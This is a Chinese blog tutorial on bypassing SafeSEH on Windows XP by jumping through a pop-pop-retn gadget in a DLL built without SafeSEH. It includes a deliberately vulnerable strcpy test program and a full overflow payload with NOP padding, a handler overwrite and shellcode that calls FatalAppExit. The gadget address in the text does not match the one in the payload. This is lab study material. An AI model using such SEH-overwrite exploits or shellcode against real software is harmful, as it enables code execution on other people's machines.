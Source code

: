 ```yaml
---
layout:		post
title:		利用未启用SafeS.E.H模块绕过SafeS.E.H
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008 & VC 6.0
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

VC 6.0新建一个dll工程, 贴入以下代码

```
#include "stdafx.h"

BOOL APIENTRY DllMain( HANDLE hModule, 
                       DWORD  ul_reason_for_call, 
                       LPVOID lpReserved
					 )
{
    return TRUE;
}

void jump()
{
	__asm
	{
		pop eax
		pop eax
		retn
	}
}
```

如下设置好项目属性

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x00.png)

关闭优化

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x01.png)

直接拖到OD载入, 选择Plugins->SafeSEH->Scan /SafeSEH Modules(需要安装OllySSEH插件), 确认SafeS.E.H没有开启

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x02.png)

VS 2008新建一个工程, 帖入以下代码, 选择release版本, 禁止优化

```
#include "stdafx.h"
#include <string.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90";

DWORD MyException()
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char * input)
{
	char str[200];
	strcpy(str,input);
	int zero=0;

	__try
	{
		zero=1/zero;
	}
	__except(MyException())
	{
	}
}

int main()
{
	HINSTANCE hInst=LoadLibrary(_T("SEH_NoSafeSEH_JUMP.dll"));
	char str[200];

	__asm int 3
	test(shellcode);
	
	return 0;
}
```


### 0x01 分析

运行*.exe, OllyDbg自动附加调试

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x03.png)

单步跟进test函数, 直接F4来到这里, 此时完成了strcpy

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x04.png)

0x0012fdb8是shellcode的起始栈地址

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x05.png)

定位到栈上最近的一个SE Handler(0x0012fe94)

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x06.png)


### 0x02 exploit

在dll定位一个"pop pop retn"跳板指令地址(0x111211b6), 注意这个地址不能有两个或以上的'0'连续(如"\x06\x10"也是不行的)

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x07.png)

按如下组织shellcode

```
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"		# 220 byte
"\x12\x10\x12\x11"		# pop eax pop eax retn
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"		# shellcode
```

pwn~

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x08.png)